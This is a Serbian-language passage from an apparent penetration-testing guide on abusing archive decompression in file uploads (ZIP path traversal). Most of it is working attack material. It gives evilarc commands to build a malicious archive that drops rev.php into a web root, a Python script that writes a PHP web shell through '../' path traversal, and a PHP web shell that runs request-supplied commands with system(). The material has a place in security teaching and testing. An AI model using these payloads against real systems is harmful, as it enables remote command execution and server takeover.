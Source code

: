 Neočekivano stvaranje fajlova u direktorijumima tokom dekompresije predstavlja značajan problem. Uprkos početnim pretpostavkama da ovaj postupak može zaštititi od izvršavanja komandi na nivou OS putem zlonamernih uploadovanih fajlova, hijerarhijska podrška za kompresiju i sposobnosti pretraživanja direktorijuma ZIP arhivnog formata mogu biti iskorišćene. Ovo omogućava napadačima da zaobiđu restrikcije i pobegnu iz bezbednih direktorijuma za uploadovanje manipulišući funkcionalnošću dekompresije ciljne aplikacije.

Automatizovani eksploit za kreiranje takvih fajlova dostupan je na [**evilarc na GitHub-u**](https://github.com/ptoomey3/evilarc). Ova alatka može biti korišćena na sledeći način:

```python
# Listing available options
python2 evilarc.py -h
# Creating a malicious archive
python2 evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
```

Dodatno, **simbolička veza trik sa evilarc-om** je opcija. Ako je cilj da se cilja datoteka poput `/flag.txt`, simbolička veza ka toj datoteci treba biti kreirana na vašem sistemu. Ovo osigurava da evilarc ne naiđe na greške tokom svog rada.

Ispod je primer Python koda koji se koristi za kreiranje zlonamernog zip fajla:

```python
#!/usr/bin/python
import zipfile
from io import BytesIO

def create_zip():
f = BytesIO()
z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
z.writestr('otherfile.xml', 'Content of the file')
z.close()
zip = open('poc.zip','wb')
zip.write(f.getvalue())
zip.close()

create_zip()
```

**Zloupotreba kompresije za prskanje fajlova**

Za dodatne detalje **proverite originalni post na**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)

1. **Kreiranje PHP Shell-a**: PHP kod je napisan da izvrši komande prosleđene kroz promenljivu `$_REQUEST`.

```php
<?php
if(isset($_REQUEST['cmd'])){
$cmd = ($_REQUEST['cmd']);
system($cmd);
}?>
```
